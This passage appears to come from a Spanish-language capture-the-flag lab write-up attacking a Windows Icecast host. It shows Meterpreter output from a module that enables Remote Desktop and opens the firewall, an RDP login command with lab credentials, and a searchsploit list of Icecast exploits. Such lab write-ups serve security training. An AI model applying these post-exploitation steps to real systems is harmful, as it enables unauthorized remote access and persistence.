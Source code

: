 
```
meterpreter > run post/windows/manage/enable_rdp

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20241010223552_default_10.10.10.157_host.windows.cle_797282.txt
meterpreter > 

```

### RDP

```
desktop 10.10.52.194 -uDark -pPassword01! 
```


## Tarea 7  - Crédito adicional

No por tiempo solo CLick

```
searchsploit Icecast                                      
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- ---------------------------------
Icecast 1.1.x/1.3.x - Directory Traversal                        | multiple/remote/20972.txt
Icecast 1.1.x/1.3.x - Slash File Name Denial of Service          | multiple/dos/20973.txt
Icecast 1.3.7/1.3.8 - 'print_client()' Format String             | windows/remote/20582.c
Icecast 1.x - AVLLib Buffer Overflow                             | unix/remote/21363.c
Icecast 2.0.1 (Win32) - Remote Code Execution (1)                | windows/remote/568.c
Icecast 2.0.1 (Win32) - Remote Code Execution (2)                | windows/remote/573.c
Icecast 2.0.1 (Windows x86) - Header Overwrite (Metasploit)      | windows_x86/remote/16763.rb
Icecast 2.x - XSL Parser Multiple Vulnerabilities                | multiple/remote/25238.txt
icecast server 1.3.12 - Directory Traversal Information Disclosu | linux/remote/21602.txt
----------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
